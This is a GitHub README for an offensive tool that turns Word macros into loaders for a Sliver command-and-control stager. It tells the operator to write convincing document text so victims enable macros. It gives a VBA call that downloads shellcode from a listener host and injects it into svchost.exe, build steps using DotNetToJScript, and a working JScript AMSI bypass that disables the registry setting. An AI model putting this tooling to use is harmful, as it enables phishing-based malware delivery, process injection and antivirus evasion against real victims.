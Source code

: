 # Macro Sliver

## Reference
https://github.com/Cyb3rDudu/MacroSliver

### Macro Usage
The file `macrosliver.vba` contains the VBA code that is directly usable in Word. Create a `.docm` file with convincing text to prompt the victim to enable macro execution, ensuring that the `Run()` function is triggered, for example, by calling it in the `Auto_Open()` trigger or a similar method, to catch the session with the instantiated listener. When the VBA function is executed, it deserializes the embedded stager DLL and invokes it. After that, the functions of the loader class can be called using the object `o`.
```VBA
    Set o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class)
    o.DownloadAndExecute "https://192.168.45.227:8064/hello.woff", "svchost.exe", "deflate9", "D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT", "8y/B?E(G+KbPeShV"
```
The arguments to pass are:
1. The stage listener URL where the shellcode is hosted.
2. The binary into which the process should be injected.
3. The compression algorithm: either `deflate9`, `gzip`, or an empty string if no compression was chosen when the listener was created.
4. The AES key.
5. The AES initialization vector.

## Build the assembly

The assembly can also be built by yourself if additional functionality is needed or if further obfuscation and AMSI bypass are required. To do this, open the solution file and build the integrated MacroSliver Project. It has to be built for the Any CPU configuration and does not need to be specified for a particular architecture. This allows the stage listener to provide the correct architecture for the target Office version.

The changes to the original stager include the handling of decompression in .NET v2 compared to .NET v4 and the AES decryption class. Additionally, VBA passes all parameters as strings rather than byte arrays, as in the original stager. So the aes key and iv are passed as strings.

After the assembly has been built, it can be used to create a VBA, HTA, or JScript script with DotNetToJScript.

## Create the Script
To generate the VBA script using DotNetToJScript, follow these steps:

1. Build DotNetToJScript: Clone and build the DotNetToJScript project from (GitHub)[https://github.com/tyranid/DotNetToJScript].
2. Prepare the necessary files: Copy the DotNetToJScript.exe, NDesk.Options.dll (created during the build process), and MacroSliver.dll into the same folder.
3. Execute the command: Run the following command to generate the VBA script.

Here are the detailed steps:

### Step 1: Build DotNetToJScript
1. Clone the DotNetToJScript repository:
```bash
git clone https://github.com/tyranid/DotNetToJScript.git
```
2. Navigate to the DotNetToJScript directory and build the project:
```bash
cd DotNetToJScript
msbuild /p:Configuration=Release
```
### Step 2: Prepare the Files
1. Copy `DotNetToJScript.exe` and `NDesk.Options.dll` from the build output directory (usually `bin\Release`) to a new folder.
2. Copy your `MacroSliver.dll` to the same folder.
### Step 3: Execute the Command
1. Open a command prompt in the folder containing `DotNetToJScript.exe`, `NDesk.Options.dll`, and `MacroSliver.dll`.
2. Run the following command to generate the VBA script:
```
.\DotNetToJScript.exe .\MacroSliver.dll --lang=vba --ver=v2 -c=Loader -o macrosliver.vba
```
This command will create a `macrosliver.vba` file that contains the VBA script generated from the `MacroSliver.dll`.
Finally add the call of `DownloadAndExecute` to trigger the stager instantiation.
```VBA
    o.DownloadAndExecute "https://192.168.X.X:8064/hello.woff", "svchost.exe", "deflate9", "D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT", "8y/B?E(G+KbPeShV"
```

## JScript

You can also create JScript payloads to deliver the dll via java script. Follow allong but transfer the methodolgy to JS. I believe you are smart enough to figure out how to do.

### AMSI Bypass

Bypassing AMSI highly reduces the detection rate, but DN2JS doesn't provide one natively. So, you can add the below AMSI bypass to your output JScript payloads much like I've done to the examples I've included in this repo.

> NOTE: You must do the bypass **after** the `setversion()` method runs or your payload will break.
> Credit: [rxwx/bypass.js](https://gist.github.com/rxwx/8955e5abf18dc258fd6b43a3a7f4dbf9) (*although its a pretty well-known bypass*)

```js
// 4MS7_BYP455
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";

try{
	var AmsiEnable = sh.RegRead(key);
	if(AmsiEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD"); // neuter AMSI
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1); // blocking call to Run()
	sh.RegWrite(key, 1, "REG_DWORD"); // put it back
	WScript.Quit(1);
}
```

Sometimes the AMSI bypass itself is what gets your payload flagged so feel free to play around with it.
